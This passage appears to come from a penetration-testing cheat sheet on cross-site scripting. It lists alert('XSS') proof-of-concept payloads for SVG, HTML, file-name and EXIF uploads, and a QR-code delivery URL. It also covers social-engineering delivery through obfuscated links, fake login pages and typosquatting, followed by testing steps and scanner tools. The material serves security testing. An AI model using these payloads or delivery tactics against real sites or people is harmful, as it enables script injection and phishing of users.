 ### File Upload XSS

```html
<!-- SVG file with embedded script -->
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert('XSS')</script>
</svg>

<!-- HTML file upload (if allowed) -->
<html>
<body>
<script>alert('XSS')</script>
</body>
</html>

<!-- XSS in file name -->
file_name_"><script>alert('XSS')</script>.jpg

<!-- XSS in metadata (EXIF) -->
exiftool -DocumentName="<script>alert('XSS')</script>" image.jpg
```

### QR Code XSS Delivery

1. Generate QR code containing: `https://vulnerable.com/?q=<script>alert('XSS')</script>`
2. Victim scans QR code
3. Browser loads malicious URL

### Social Engineering Delivery

1. Send shortened/obfuscated URL via email/message
2. Create fake login page that forwards XSS payload
3. Use typosquatting domains with XSS payloads

## Testing for XSS

### Manual Testing Steps

1. Identify input vectors (URL parameters, form fields, headers)
2. Test with simple payloads: `<script>alert('XSS')</script>`
3. If blocked, try alternative payloads and bypass techniques
4. Test different contexts (HTML, JS, attributes)
5. Check for reflections in responses
6. Verify execution by using `alert()` or external callbacks

### Automated Tools for XSS Detection

- XSStrike
- OWASP ZAP
- Burp Suite (Pro) Scanner
- Nikto
- w3af
- Acunetix
